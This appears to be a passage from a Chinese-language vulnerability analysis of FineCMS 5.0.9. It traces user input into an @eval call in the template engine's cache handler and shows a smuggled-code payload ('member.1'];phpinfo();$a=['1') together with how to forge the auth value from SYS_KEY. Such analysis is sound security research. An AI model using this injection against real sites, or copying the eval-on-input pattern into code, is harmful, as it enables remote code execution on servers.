 ![](http://osn75zd5c.bkt.clouddn.com/fincms-5.0.9-8.png)

安全密钥在/config/system.php中第11行被定义

```php
'SYS_KEY' => '24b16fede9a67c9251d3e7c7161c83ac', //安全密钥
```
然后在/finecms/dayrui/config/config.php中第37行将其设置成为cookie的名字

```php
$config['sess_cookie_name'] = $site['SYS_KEY'].'_ci_session';
```
因此，直接在payload中使auth的值为SYS_KEY的MD5值即可。

传入的param值不满足128行的条件
​	
```php
if (isset($param['cache']) && $param['cache'])
```
因此$data依旧为空，$param直接传入list_tag()函数中

```php
$data = $this->template->list_tag($param);
```

定位一下list_tag()，在/finecms/dayrui/libraries/Template.php第402行

传入的数据被处理成$params，一个数组

```php
Array( 
[0] => action=cache 
[1] => name=member.1'];phpinfo();$a=['1
) 
```
然后经过遍历处理，将两个值分别给了$system['action']和$param['name']

```php
$system['action'] = cache
$param['name'] = member.1'];phpinfo();$a=['1
```

然后在switch-case中，进入了

```php
case 'cache': // 系统缓存数据
	if (!isset($param['name'])) {
	    return $this->_return($system['return'], 'name参数不存在');
	}
	$pos = strpos($param['name'], '.');
	if ($pos !== FALSE) {
    	$_name = substr($param['name'], 0, $pos);
    	$_param = substr($param['name'], $pos + 1);
	} else {
    	$_name = $param['name'];
    	$_param = NULL;
	}
	$cache = $this->_cache_var($_name, !$system['site'] ? SITE_ID : $system['site']);
	if (!$cache) {
    	return $this->_return($system['return'], "缓存({$_name})不存在，请在后台更新缓存");
	}
	if ($_param) {
    	$data = array();
    	@eval('$data=$cache' . $this->_get_var($_param) . ';');
    	if (!$data) {
        	return $this->_return($system['return'], "缓存({$_name})参数不存在!!");
    	}
	} else {
    	$data = $cache;
	}
```